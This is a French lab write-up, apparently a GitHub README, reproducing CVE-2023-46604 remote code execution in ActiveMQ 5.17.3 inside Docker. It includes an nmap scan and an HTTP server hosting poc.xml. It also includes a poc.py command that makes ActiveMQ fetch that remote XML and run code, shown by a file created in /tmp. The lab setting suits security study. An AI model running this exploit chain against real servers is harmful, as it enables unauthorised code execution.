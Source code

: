 CVE 2023-46604

Pour commencer, lancez ActiveMQ en arrière-plan dans le dossier activemq_2023 en utilisant Docker Compose :

docker compose up -d

![Capture d’écran 2024-10-28 à 12 38 08](https://github.com/user-attachments/assets/d8f89a89-5db4-443e-ac48-01ada7163acd)

Accédez ensuite à l'interface d'administration dans un navigateur à l'adresse :

http://localhost:8161/admin/

Vous verrez la version d'ActiveMQ, ici (5.17.3) :

![Capture d’écran 2024-10-28 à 12 39 45](https://github.com/user-attachments/assets/1a11852e-ada9-4ece-b2b3-b92e99d1fdbc)

On peut aussi voir la version de activemq dans le fichier docker-compose.yml:

![Capture d’écran 2024-10-28 à 12 40 48](https://github.com/user-attachments/assets/3f82642d-676b-49d2-9f2f-c72d4246717f)

Pour scanner le réseau afin d'identifier les services actifs et leurs versions avec la commande : nmap -p- 192.168.1.145

![Capture d’écran 2024-10-28 à 12 42 12](https://github.com/user-attachments/assets/2377b011-43e0-498a-8ba0-d0a664806038)



Ensuite, pour exploiter ce CVE, ouvrez un port avec la commande suivante :
python3 -m http.server -b 192.168.1.145 6666

![Capture d’écran 2024-10-28 à 12 46 15](https://github.com/user-attachments/assets/89c32c5d-d091-4c45-bbf2-ee755b80f622)

Utilisez ensuite les fichiers poc.py et poc.xml pour envoyer la commande suivante :
python3 poc.py localhost 61616 http://192.168.1.145:6666/poc.xml

Vous pouvez vérifier que la commande a bien été reçue sur le port :
![Capture d’écran 2024-10-28 à 12 49 13](https://github.com/user-attachments/assets/9a0caee3-f648-454d-81c5-5d301b22ccf4)

Ensuite, en écrivant: docker ps -a on peut identifier l'id du container ouvert et qui correspond a activemq.
Grace a cette id on effectue cette commande pour accédez au conteneur:
docker exec -it 55cfcd6ae598 /bin/bash

Enfin, vérifiez dans le dossier /tmp pour voir si l'injection a réussi :
ls -l /tmp/

On  devrait avoir un fichier crée comme celui ci:
-rw-r--r-- 1 root root    0 Oct 28 11:48 activeMQ-RCE-success

Nous avons réussi à créer le fichier activeMQ-RCE-success, ce qui constitue une preuve de l'exécution réussie de l'injection de code à distance à travers une requête malveillante.

![Capture d’écran 2024-10-28 à 12 51 17](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

Cet exploit montre comment CVE-2023-46604 permet une exécution de code à distance via l'injection d'une payload dans ActiveMQ, ouvrant ainsi des voies d'accès non autorisées au système.

